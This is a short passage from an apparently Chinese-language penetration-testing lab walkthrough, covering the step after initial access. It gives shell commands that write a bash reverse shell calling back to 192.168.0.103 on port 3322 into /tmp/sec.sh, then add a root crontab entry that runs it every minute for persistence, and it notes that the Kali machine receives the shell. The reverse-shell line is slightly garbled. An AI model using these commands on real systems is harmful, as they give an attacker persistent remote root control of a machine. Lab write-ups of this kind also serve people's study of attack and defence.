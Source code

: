 <img src=".\图片\Snipaste_2023-05-20_20-13-10.png" alt="Snipaste_2023-05-20_20-13-10" style="zoom:80%;" />

#### 后续反弹shell

计划任务反弹shell

```bash
echo '/bin/bash -i >& bash -i >&/dev/tcp/192.168.0.103/3322 0>&1' > /tmp/sec.sh
chmod +x /tmp/sec.sh
cat /tmp/sec.sh
echo '*/1 * * * * root bash /tmp/sec.sh' >>/etc/crontab
```

kali 收到 shell：

<img src=".\图片\Snipaste_2023-05-20_20-21-18.png" alt="Snipaste_2023-05-20_20-21-18" style="zoom:80%;" />
